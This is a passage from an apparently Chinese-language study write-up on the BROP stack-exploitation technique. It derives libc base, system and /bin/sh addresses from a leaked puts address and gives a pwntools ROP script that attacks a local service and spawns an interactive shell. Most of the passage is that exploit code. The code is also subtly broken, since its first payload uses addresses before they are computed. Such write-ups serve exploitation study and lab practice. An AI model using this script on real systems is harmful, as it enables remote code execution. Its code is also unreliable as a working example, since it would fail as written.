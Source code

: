 这样我们就获取到了 `system` 函数和 `/bin/sh` 相对于 `puts libc`起始地址的偏移 ，`libc`的起始地址 = `puts_addr` - `puts_offset`

那我们通过动态获取到puts_addr的地址来计算相对偏移就能完成我们的getshell

#### getshell

`Ubuntu 18.04` 及以后版本中，在调用调用printf或是system时，程序会使用movaps对内存对齐对其进行检查，该指令（movaps）需要`rsp`按照16字节对齐，ret指令可以让rsp+8,帮助我们对齐。

```python
# -*- coding:utf-8 -*-
from __future__ import print_function
from pwn import *

context.log_level = "DEBUG"

def get_puts_addr_getshell(buf_size, stop_gadget, useful_gadget, puts_plt, puts_got,offset_puts,offset_system,offset_bin_sh):
    pop_rdi_ret = useful_gadget + 9
    payload = 'a'*buf_size + p64(pop_rdi_ret) + p64(bin_sh_addr) +p64(useful_gadget + 10)+ p64(system_addr) + p64(stop_gadget)
    try:
        p = remote("127.0.0.1",9999)
        p.recvline("password?")
        p.sendline(payload)
        accept_str = p.recvline(timeout=0.5)
        put_addr = u64(accept_str[:-1]+'\x00\x00')
        log.info("put_address: 0x%x",put_addr)
        system_addr = put_addr - offset_puts + offset_system
        bin_sh_addr = put_addr - offset_puts +offset_bin_sh
        payload = 'a'*buf_size + p64(pop_rdi_ret) + p64(bin_sh_addr) +p64(useful_gadget + 10)+ p64(system_addr) + p64(stop_gadget)
        p.sendline(payload)
        p.interactive()
        return put_addr
    except:
        log.info("connect error")

if __name__ == "__main__":
    buf_size = 72
    stop_gadget = 0x400590
    useful_gadget = 0x40078a
    puts_plt = 0x400545
    puts_got = 0x601018
    offset_puts = 0x80970
    offset_system = 0x4f420
    offset_bin_sh = 0x1b3d88
    put_addr = get_puts_addr_getshell(buf_size, stop_gadget, useful_gadget, puts_plt, puts_got,offset_puts,offset_system,offset_bin_sh)
```

成功拿到shell

![image-20220804105716020](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220804105716020.png)
